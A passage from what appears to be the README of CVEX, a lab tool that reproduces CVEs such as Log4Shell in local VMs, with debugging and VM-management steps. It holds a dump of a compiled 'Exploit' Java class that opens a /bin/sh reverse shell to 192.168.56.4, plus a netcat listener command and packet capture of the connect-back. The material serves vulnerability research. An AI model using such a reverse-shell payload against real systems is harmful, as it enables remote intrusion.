SourceFile...Exploit.java........192.168.56.4.../bin/sh...java/lang/ProcessBuilder...java/lang/String....M..N.O..P.Q...java/net/Socket....R..J..S.T..U.T..V.W..X.Y..K..Z.[..\.[..L..].^.._....`..a.b..c.[...java/lang/Exception..d....e.....Exploit...java/lang/Object...java/lang/Process...java/io/InputStream...java/io/OutputStream...([Ljava/lang/String;)V...redirectErrorStream...(Z)Ljava/lang/ProcessBuilder;...start...()Ljava/lang/Process;...(Ljava/lang/String;I)V...getInputStream...()Ljava/io/InputStream;...getErrorStream...getOutputStream...()Ljava/io/OutputStream;...isClosed...()Z..	available...()I...read...write...(I)V...flush...java/lang/Thread...sleep...(J)V..	exitValue...destroy...close.!................... ............*.....L...=..N...Y....Y.-S..........:...	Y+...
:......:......:......:......:	.....:
.......`.........
....................
....................	............
....	..............W...:............................!...n.....	...
.............&...1...8...?...F...T...\...d...q...y.................................!..."...$...%...&."...1....T....#..$...$..%..&..'..'..'..(..(......X..)..*...........+.....,
```

The payload connects back to netcat (`nc -nvlp 1234` from cvex.yml), executed by the attacker:
```
15:34:04.462260 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.?..Y..8...8..,...g........../A.........
.$IN........
15:34:04.462345 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.>..Y..8...8..,...g........../A.........
.$IN........
15:34:04.464332 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.@.Id..8...8....,.Z...g......"..........
...3.$IN....
15:34:04.464348 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.?.Jd..8...8....,.Z...g......"..........
...3.$IN....
```

</details>

## Debug

1. Re-start CVEX.
2. Restart CVEX with the `-v` parameter (verbose logging).
3. Connect to the VM via SSH with the help of `vagrant ssh` command
<details>
<summary>How to use "vagrant ssh"</summary>

```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2021-44228/ubuntu1
==> default: Restoring the snapshot 'CVE-2021-44228/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Oct 10 06:33:32 AM UTC 2024

  System load:  1.0625             Users logged in:          0
  Usage of /:   15.2% of 30.34GB   IPv4 address for docker0: 172.17.0.1
  Memory usage: 22%                IPv4 address for eth0:    10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1:    192.168.56.4
  Processes:    155


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct  9 13:29:41 2024 from 10.0.2.2

vagrant@ubuntu:~$ 
```

</details>

Use VirtualBox GUI to manage VMs and snapshots.

## Managing VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```


